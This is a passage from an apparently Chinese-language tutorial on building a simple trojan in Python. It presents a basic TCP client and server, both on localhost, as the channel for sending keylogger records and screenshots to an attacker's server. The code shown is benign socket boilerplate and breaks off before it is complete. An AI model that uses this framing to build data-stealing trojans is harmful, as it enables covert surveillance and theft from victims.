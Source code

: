看看效果如何：

![enter image description here](http://drops.javaweb.org/uploads/images/5db0201479e967f8457776bc5cce8a0b31d30455.jpg)

0x03 综合运用：完成一个简易木马
==================

* * *

无论是keylogger记录下的内容，还是screenshotter截获的图片，只存在客户端是没有太大意义的，我们需要构建一个简单server和client端来进行通信，传输记录下的内容到我们的服务器上。

编写一个简单的TCPclient

```
# -*- coding: utf-8 -*- 
import socket

# 目标地址IP/URL及端口
target_host = "127.0.0.1"
target_port = 9999

# 创建一个socket对象
client = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

# 连接主机
client.connect((target_host,target_port))

# 发送数据
client.send("GET / HTTP/1.1\r\nHOST:127.0.0.1\r\n\r\n")

# 接收响应
response = client.recv(4096)

print response

```

编写一个简单的TCPserver

```
# -*- coding: utf-8 -*- 
import socket
import threading

# 监听的IP及端口
bind_ip = "127.0.0.1"
bind_port = 9999

server = socket.socket(socket.AF_INET,socket.SOCK_STREAM)

server.bind((bind_ip,bind_port))

server.listen(5)

print "[*] Listening on %s:%d" % (bind_ip,bind_port)

def handle_client(client_socket):

    request = client_socket.recv(1024)

    print "[*] Received:%s" % request

    client_socket.send("ok!")

    client_socket.close()

```